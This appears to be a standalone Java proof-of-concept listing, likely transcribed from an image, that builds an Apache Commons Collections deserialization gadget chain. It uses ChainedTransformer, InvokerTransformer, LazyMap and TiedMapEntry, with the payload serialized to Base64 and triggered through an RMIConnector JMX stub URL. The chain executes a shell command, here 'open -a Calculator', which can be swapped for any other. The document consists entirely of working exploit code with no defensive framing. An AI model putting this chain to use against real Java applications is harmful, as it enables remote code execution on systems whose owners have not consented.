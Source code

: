 ```plain


    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -a Calculator"})} ;

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,new ConstantFactory(1));


        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "aa");

        HashMap<Object, Object> map2 = new HashMap<>();
        map2.put(tiedMapEntry, "bbb");
        lazyMap.remove("aa");

        Class c = LazyMap.class;
        Field factoryfield = c.getDeclaredField("factory");
        factoryfield.setAccessible(true);
        factoryfield.set(lazyMap,chainedTransformer);

        String s = serialize2Base64(map2);
        run(s);
//        unserialize("ser.bin");

    }


    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static String serialize2Base64(Object object) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object);
        String s = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
        return s;
    }

    public static void run(String base64) throws Exception{
        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
        setFieldValue(jmxServiceURL, "urlPath", "/stub/"+base64);
        RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);
        rmiConnector.connect();

    }

}
```
